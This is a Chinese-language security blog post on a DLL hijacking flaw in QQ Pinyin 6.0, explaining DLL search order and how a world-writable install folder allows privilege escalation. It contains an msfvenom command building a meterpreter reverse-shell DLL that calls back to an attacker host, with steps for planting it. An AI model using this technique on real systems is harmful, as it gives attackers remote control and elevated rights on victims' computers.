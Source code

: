 ```yaml
---
title: QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
layout: post
date: '2018-06-09'
categories: 内网渗透
permalink: "/archivers/2018-06-09/1"
description: QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
---
```


QQ拼音输入法6.0最新版DLL劫持 - 可利用于提权
<!--more-->
* 目录
{:toc}

## 0x00 DLL劫持简介

《DLL劫持》技术当一个可执行文件运行时，Windows加载器将可执行模块映射到进程的地址空间中，加载器分析可执行模块的输入表，并设法找出任何需要的DLL，并将它们映射到进程的地址空间中。 -- 百度百科


## 0x01 应用程序寻找DLL的过程

* 1.程序所在目录
* 2.系统目录即 SYSTEM32 目录
* 3.16位系统目录即 SYSTEM 目录
* 4.Windows目录
* 5.加载 DLL 时所在的当前目录
* 6.PATH环境变量中列出的目录

首先如果在程序所在目录下未寻找到DLL，一般会在SYSTEM32目录下寻找到，那么可能会存在DLL劫持，要看注册表

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`

Windows操作系统通过“DLL路径搜索目录顺序”和“KnownDLLs注册表项”的机制来确定应用程序所要调用的DLL的路径，之后，应用程序就将DLL载入了自己的内存空间，执行相应的函数功能。

## 0x02 寻找过程

Process Monitor一款系统进程监视软件，总体来说，Process Monitor相当于Filemon+Regmon，其中的Filemon专门用来监视系统 中的任何文件操作过程，而Regmon用来监视注册表的读写操作过程。 有了Process Monitor，使用者就可以对系统中的任何文件和 注册表操作同时进行监视和记录，通过注册表和文件读写的变化， 对于帮助诊断系统故障或是发现恶意软件、病毒或木马来说，非常 有用。 这是一个高级的 Windows 系统和应用程序监视工具，由优秀的 Sysinternals 开发，并且目前已并入微软旗下，可靠性自不用说。


通过Process Monitor找出一些可能容易被劫持的DLL，特征一般如下：

![0x01](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x01.jpg)

* ntmarta.dll(直接调用)
* profapi.dll（需要点击“配置”）

这两个都不在KnownDLLs中，由于开发人员调用这两个DLL的时候没有定义绝对路径，导致DLL搜索，我们可以直接在搜索到system32之前，放入我们要劫持的DLL。

权限问题：

如果要劫持的DLL目录被操作系统限制了必须以管理员权限才可以读写，那么我们无法利用，本文演示从低权限到高权限的DLL劫持提权。

![0x02](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x02.jpg)

那么这个漏洞刚刚好也符合我们的案例：C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400

这个目录是任何人都可以读写的，使用MSF生成DLL：

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.19 LPORT=4478 -f dll > ntmarta.dll`

接下来通过任意途径，将dll copy到`C:\Program Files (x86)\Tencent\QQPinyin\6.0.5005.400`路径下即可

MSF配置如下：

![0x03](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x03.jpg)

当用户使用输入法的时候、或者重启PC的时候，或者切换输入法的时候，都将会触发，我们可以获得一个Meterpreter会话。

![0x04](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/0x04.jpg)

## 0x03 视频演示

<video src="https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-06-09/QQPINYIN.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>